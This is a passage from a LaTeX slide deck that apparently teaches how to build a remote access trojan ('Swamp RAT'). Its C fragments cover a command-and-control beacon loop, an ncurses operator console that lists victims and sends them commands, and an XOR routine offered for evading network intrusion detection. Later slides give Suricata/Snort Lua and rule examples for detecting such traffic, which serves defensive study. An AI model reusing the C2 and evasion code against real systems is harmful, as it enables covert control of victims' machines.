            net_remove_commands(p_commands[i], p_commands); // Command Sent to Victim
          }
        }
        if (command == false){
          p_net_server_beacon->xor_key = DEFS_XOR_KEY; // Set Packet XOR Key
          p_net_server_beacon->status = true;
          if (send(sock, p_net_server_beacon, sizeof(net_server_beacon_t), 0) < 0){
            fprintf(stderr, "[x] %s\n", strerror(errno));
            free(p_net_server_beacon);
            free(p_net_client_beacon);
            pthread_exit(NULL);
          }
        }
      }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{NCurses}
  \begin{center}
    
\includegraphics[width=12cm,keepaspectratio]{ncurses}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{NCurses}
  \framesubtitle{What is it?}
  \begin{tcolorbox}[title=\href{https://en.wikipedia.org/wiki/Ncurses}{ncurses.log},colback=gray]
    NCurses - Also known as new curses, is a programming library providing an application programming interface (API) that allows the programmer to write text-based user interfaces in a terminal-independent manner. It is a toolkit for developing "GUI-like" application software that runs under a terminal emulator. It also optimizes screen changes, in order to reduce the latency experienced when using remote shells. - \href{https://en.wikipedia.org/wiki/Ncurses}{Wikipedia}
  \end{tcolorbox}
\end{frame}

\begin{frame}
  \frametitle{NCurses}
  \framesubtitle{What are we using it for?}
  \begin{itemize}
  \item{View Victim UUID}
  \item{View Victim CPU Status}
  \item{View Victim Username}
  \item{View Victim Architecture}
  \item{View Victim IP Address}
  \item{View Victim Ping}
  \item{View Victim Kernel Version}
  \item{Send Commands}
  \item{Everything is Better in Terminal}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{NCurses}
  \framesubtitle{Create The main window!}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        WINDOW *ncurses_wmain_create(int port,
                                     net_client_beacon_t **p_victims,
                                     net_server_beacon_t **p_commands){
          WINDOW *win_main;                                                   // Main Window
          win_main = initscr();                                               // Initalize Main Window
          if (start_color() == ERR || !has_colors() || !can_change_color()){  // Check for Color Supported Terminal
            fprintf(stderr, "%s\n", strerror(errno));
            return false;
          }
          if (net_server_async(port, p_victims, p_commands) == false){        // Startup CnC Server ASYNC
            fprintf(stderr, "[x] failed to initalize cnc server\n");
            return false;
          }
          noecho();
          curs_set(0);                                                        // Position the Cursor
          init_pair(NCURSES_WMAIN_COLOR, COLOR_GREEN, COLOR_BLACK);           // Set Color Pair
          wbkgd(win_main, COLOR_PAIR(NCURSES_WMAIN_COLOR));                   // Set Window Background
          return win_main;                                                    // Return the Main Window
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{NCurses}
  \framesubtitle{Create the menu window!}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool ncurses_wmenu(WINDOW *win_main,                      // Pointer to Main Window
                           WINDOW *win_menu,                      // Pointer to Menu Window
                           char *win_menu_title){                 // Menu Title
          int y, x;
          getmaxyx(win_main, y, x);                               // Get Max X Y
          wresize(win_menu, (y - y_margin), (x - x_margin));      // Resize Menu
          box(win_menu, 0, 0);                                    // Menu Border
          mvwprintw(win_menu,                                     // Print Menu Title
                    1,                                            // Menu Y Value
                    (x / 2) - (strlen(win_menu_title) / 2),       // Menu X Value
                    "%s",                                         // Format String
                    win_menu_title);                              // The Menu Title
         mvwaddch(win_menu, 2, 0, ACS_LTEE);                      // Draw Lines to Complete Menu
         mvwhline(win_menu, 2, 1, ACS_HLINE, (x - x_margin) - 2);
         mvwaddch(win_menu, 2, (x - x_margin) - 1, ACS_RTEE);
         return true;
       }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{NCurses}
  \framesubtitle{The Interface}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{rat_tool}
      \caption{Swamp RAT}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{How can we thwart most NIDS?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=6cm,keepaspectratio]{bypass_firewall}
      \caption{Bill Gates}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{First Hint}
  \begin{center}
    
\includegraphics[width=10cm,keepaspectratio]{xor_gate}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{Second Hint}
  \begin{center}
    
\includegraphics[width=5cm,keepaspectratio]{xor_truth_table}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Function to Bypass Most NIDS}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool crypt_decrypt_xor(char *data,      // Pointer to Data Structure
                               int data_size,   // Size of Data
                               int key){        // The Key
          for (int i = 0; i < data_size; i++){ 
            if (i > (int)sizeof(int) - 1){      // Skip over the Key
              data[i] = data[i]^key;            // XOR the Data
            }
          }
          return true;
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{Clear Dataframe vs XOR Dataframe}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{tcp_xor_dataframe}
      \caption{Comparison of TCP Dataframes}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{But Why?}
  \begin{center}
    
\includegraphics[width=7cm,keepaspectratio]{but_why}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{But we can detect this with Lua!}
  \begin{itemize}
  \item{Suricata}
    \begin{itemize}
    \item{Lua Scripting}
    \end{itemize}
  \item{Snort}
    \begin{itemize}
    \item{Lua Scripting}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{Lua Script Example}
  \begin{center}
    \begin{tcolorbox}[title=alert.lua,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{lua}
        function init (args)
          local needs = {}
          needs["http.request_line"] = tostring(true)
          return needs
        end

        function match(args)
          a = tostring(args["http.request_line"])
            if #a > 0 then
              if a:find("^POST%s+/.*%.php%s+HTTP/1.0$") then
                return 1
              end
            end
          return 0
        end
        return 0
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{Remember NJRat?}
  \begin{center}
    \begin{tcolorbox}[title=njrat.rules,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        alert tcp any any -> \$EXTERNAL_NET any (
          msg:"NJRat/Bladabindi APT-C-27 Variant CnC Beacon";
          content:"medo2|2a 5f 5e|"; nocase; fast_pattern;
          pcre:"/(inf|kl|msg|pl)medo2\x2a\x5f\x5e[a-z,0-9,\+\/,\=]{1,}/i";
          flow:to_server,established;
          reference:md5,382788bb234b75a35b80ac69cb7ba306;
          reference:url,https://ti.360.net/blog/articles/analysis-of-apt-c-27;
          classtype:trojan-activity;
          sid:2000000;
          rev:01;
        )
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{Remember the TCP Dataframes?}
  \begin{center}
    \begin{figure}
